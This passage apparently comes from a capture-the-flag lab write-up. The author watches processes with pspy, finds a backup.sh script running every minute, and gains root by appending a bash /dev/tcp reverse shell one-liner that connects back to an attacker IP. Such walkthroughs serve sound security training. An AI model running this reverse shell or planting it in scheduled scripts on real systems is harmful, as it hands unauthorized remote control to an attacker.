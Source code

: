  Looking through the output of pspy, I found that the backup.sh script was indeed running. This confirmed that the script was scheduled to execute periodically. We were able to observe how often it was running—every minute.
At this point, I realized I could exploit this recurring task for further access.


<img src="/assets/images/tcm-academy/academy-37.png">

## Root Access

Abusing the Periodic Backup Script
Since the backup.sh script was running automatically, I decided to modify it to add a reverse shell payload. This way, when the script executed, it would also execute the reverse shell, giving me access to the system.

Adding Reverse Shell to backup.sh

I navigated back to the /home/grimmie directory.

I then added a reverse shell to the backup.sh script. I grabbed a one-line reverse shell from the Pentest Monkey Reverse Shell cheatsheet:

<a href="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet">Pentest Monkey's Reverse Shell Cheat Sheet</a>

Here’s the command I added to the script:

<img src="/assets/images/tcm-academy/academy-38.png">

I substituted 10.0.0.1 with my attacker IP address and added this to the backup.sh script.


```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

<img src="/assets/images/tcm-academy/academy-39-1.png">
